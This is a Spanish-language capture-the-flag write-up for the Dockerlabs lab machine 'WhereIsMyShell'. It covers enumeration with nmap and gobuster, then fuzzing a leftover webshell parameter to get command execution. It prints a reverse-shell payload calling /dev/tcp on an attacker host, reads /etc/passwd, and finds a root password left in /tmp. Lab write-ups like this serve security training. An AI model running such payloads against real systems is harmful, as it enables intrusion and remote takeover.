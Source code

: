 # Write-up: 

- **Nombre de la máquina:** `WhereIsMyShell` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
```	
ping 172.17.0.2
```

Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.

![](Imagenes/222.png)
#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                |
| ------ | -------- | ------------- | ------------------------------------ |
| 80     | http     | Apache 2.4.57 | Iniciaremos por aquí. No hay otro XD |

/
![](Imagenes/223.png)

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Vemos una frase : "==Pista==: "Guardo un secretito en /temp;)"
    ![](Imagenes/224.png)
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	![](Imagenes/225.png)
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `/backup`--> X
	- `/uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:
- Lanzamos la herramienta `whatweb` para que nos de información sobre la aplicación web. 
```
whatweb 172.17.0.2
```

![](Imagenes/226.png)

Nada relevante. 


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```

![](Imagenes/236.png)

**Hallazgos:**
Vemos  rutas llamativas:
- 172.17.0.2/shell.php: 
  Podemos ver una página en blanco...
	
- 172.17.0.2/warning.html:
	Podemos leer: `Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo... `
![](Imagenes/227.png)

Teniendo como pista que existe un parámetro que no recuerda haremos fuzzing a `shell.php` y encontramos el parámetro :

![](Imagenes/228.png)


Con el que hemos podido ejecutar la consola en `shell.php`
![](Imagenes/229.png)

Si hemos podido ejecutar comandos en una consola, utilizaremos esta brecha para ejecutar una `revershell`



---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Ejecutaremos la revershell en dos pasos sencillos:
1. Levantaremos un puerto de escucha, en nuestro caso el 8888
```
   sudo nc -nvlp 8888
```
   
3. Generaremos un código en https://www.revshells.com/ que abusando de la vulnerabilidad que hemos encontrado`RCE- Ejecución remota de comandos`  nos ejecutara la revershell y tendremos acceso desde nuestra terminal. 
   
```
 http://172.17.0.2/shell.php?parameter=bash%20-c%20%22/bin/bash%20-i%20%3E%26%20/dev/tcp/10.0.0.5/8888%200%3E%261%22
```

![](Imagenes/230.png)


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿A qué grupo pertenezco?
```
id
```
![](Imagenes/231.png)

¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?

```
cat /etc/passwd | grep sh
```


![](Imagenes/232.png)



#### Búsqueda del Vector de Escalada:

Si recordamos en la pista encontrada anteriormente nos decían que escondían un secreto en `/tmp`. Lo revisamos:
`/tmp`:

![](Imagenes/233.png)

Encontramos el archivos `.secret.txt` donde encontramos la contraseña de `root`
![](Imagenes/234.png)

**Credenciales obtenidas:**
- **Usuario:** `root`
- **Contraseña:** `contraseñaderoot123`

### 4.2. Explotación y Escalada a Root

Probamos las credenciales encontradas y BINGO🚀 


![](Imagenes/235.png)



SOMOS ROOT🚀


